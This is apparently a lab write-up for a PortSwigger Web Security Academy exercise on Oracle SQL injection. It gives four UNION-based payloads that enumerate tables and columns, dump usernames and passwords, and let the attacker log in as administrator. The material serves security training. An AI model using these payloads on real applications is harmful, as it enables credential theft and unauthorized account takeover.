 # SQL injection attack, listing the database contents on Oracle

## Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so it is possible to use a UNION attack to retrieve data from other tables.

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```text
'+UNION+SELECT+'abc','def'+FROM+dual--
```
    
3. Use the following payload to retrieve the list of tables in the database:

```text
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```text
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GYCDOW'--
```
    
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```text
'+UNION+SELECT+USERNAME_WWIUXV,+PASSWORD_GFLFLH+FROM+USERS_GYCDOW--
```
    
8. Find the password for the administrator user, and use it to log in.

![SQLi](/_static/images/sqli12.png)

## Exploitability

The application has a login function, and the database contains a table that holds usernames and passwords. An attacker needs to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users, and login as administrator. 
